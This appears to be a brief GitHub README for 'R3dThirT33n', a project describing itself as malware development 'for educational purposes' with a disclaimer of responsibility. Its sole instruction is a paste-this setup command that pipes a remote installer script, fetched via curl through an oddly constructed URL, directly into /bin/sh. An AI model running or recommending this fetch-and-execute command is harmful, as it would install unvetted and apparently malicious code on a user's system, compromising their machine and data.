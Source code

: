 # R3dThirT33n

Simple Malware Development for educational purposes, decline any responsibility for misuses of this tools

To install the service run the following command to setup the server.

> /bin/sh -c <(curl -fsSL https://cloudflare-dns.com/dns-query?name=https://raw.githubusercontent.com/th333boo/r3d33/master/installer.sh)
